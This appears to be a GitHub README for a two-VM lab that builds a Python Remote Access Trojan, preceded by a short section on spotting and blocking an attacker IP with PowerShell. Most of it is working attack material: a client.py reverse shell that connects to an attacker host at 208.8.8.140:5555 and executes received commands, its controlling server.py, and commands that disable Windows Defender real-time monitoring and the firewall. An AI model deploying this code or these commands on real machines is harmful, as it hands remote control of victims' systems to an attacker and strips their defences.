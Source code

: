 ### PowerShell
```bash
Get-NetTCPConnection -RemoteAddress 10.28.0.149 | Select-Object OwningProcess, State # Find which program is connecting to 10.28.0.149
Get-Process -Id <OwningProcess> | Select-Object Name, Path
```


### Block the Attacker’s IP
```bash
# Block all outbound traffic to the attacker
New-NetFirewallRule -DisplayName "Block Attacker" -Direction Outbound -RemoteAddress 10.28.0.149 -Action Block
```


---
### Remote Access Trojan (RAT) 

Network Testing - Two machines (or VMs) on the same network
- WINServer22-1 : Server
- WINServer22-2 : Client / Victim



Find the **server's local IP** (ipconfig on Windows / ifconfig on Linux).
- Replace "attacker_ip_here" in client.py with the server’s IP.
- Attacker IP: 208.8.8.140 (IPv4 Address)
port 5555 - firewall port



Disable the Windows Security Threat (only if enabled):

```bash
# Disable
Set-MpPreference -DisableRealtimeMonitoring $true
```


```
#Enable
Set-MpPreference -DisableRealtimeMonitoring $false
```

Disable the Firewall of the Server
```bash
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```

Ping the server IP (from client's terminal)
```bash
# Command Prompt
ping 208.8.8.140
```


Enable telnet in Windows Powershell
```bash
Enable-WindowsOptionalFeature -Online -FeatureName "TelnetClient"
```


Check if the port (5555) is listening:
```bash
Check if the port (5555) is listening:
```



## `server.py`
- This listens for incoming connections on port `5555`
- Firewall must allow inbound connections on port `5555`
  
Example PowerShell command to allow the port:
```bash
New-NetFirewallRule -DisplayName "PythonTest" -Direction Inbound -LocalPort 5555 -Protocol TCP -Action Allow
```

```python
# server.py
# server.py - Run on the ADMIN machine
import socket

def start_server():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0", 5555))  # Listen on all network interfaces
    s.listen(1)
    print("[*] Waiting for connection...")
    
    conn, addr = s.accept()
    print(f"[+] Connected to {addr}")
    
    try:
        while True:
            cmd = input("admin$ ")
            if cmd.lower() == 'exit':
                conn.send(cmd.encode())
                break
            conn.send(cmd.encode())
            print(conn.recv(4096).decode())  # Larger buffer for big outputs
    finally:
        conn.close()
        s.close()

if __name__ == "__main__":
    start_server()

```

## `client.py `
- The client initiates the connection to the `server’s IP` (208.8.8.140)
- No need to disable the client’s firewall (outbound connections are usually allowed by default).


```python
# client.py

# client.py - Run on the TARGET machine
import socket
import subprocess

def connect_to_server(server_ip, port):
    while True:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((server_ip, port))
            print(f"[*] Connected to {server_ip}")
            
            while True:
                command = s.recv(4096).decode().strip()
                if command.lower() == 'exit':
                    s.close()
                    break
                
                try:
                    output = subprocess.getoutput(command)
                    s.send(output.encode())
                except Exception as e:
                    s.send(f"Error: {str(e)}".encode())
                    
        except (ConnectionError, socket.error):
            print("[!] Connection lost. Reconnecting...")
            continue

if __name__ == "__main__":
    SERVER_IP = "208.8.8.140"  # Change to the server's real IP
    PORT = 5555
    connect_to_server(SERVER_IP, PORT)

```




---
### WinError 10061

Kapag ganiyan yung error, check yung IP. Baka mali/mismatch lang


